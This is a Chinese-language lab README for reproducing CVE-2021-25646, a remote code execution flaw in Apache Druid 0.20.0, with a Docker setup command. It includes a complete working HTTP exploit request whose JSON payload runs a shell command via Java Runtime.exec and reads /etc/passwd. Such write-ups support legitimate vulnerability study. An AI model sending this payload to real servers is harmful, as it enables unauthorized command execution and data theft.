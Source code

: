 # Apache Druid 代码执行漏洞（CVE-2021-25646）

Apache Druid是一个开源的分布式数据存储。

Apache Druid包括执行嵌入在各种类型请求中的用户提供的JavaScript代码的能力。这个功能是为了在可信环境下使用，并且默认是禁用的。然而，在Druid 0.20.0及以前的版本中，攻击者可以通过发送一个恶意请求使Druid用内置引擎执行任意JavaScript代码，而不管服务器配置如何，这将导致代码和命令执行漏洞。

参考链接：

- <https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution>
- <https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw>

## 漏洞环境

执行如下命令启动一个Apache Druid 0.20.0服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

## 漏洞复现

直接发送如下请求即可执行其中的JavaScript代码：

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

可见，`id`命令已被成功执行：

![](1.png)
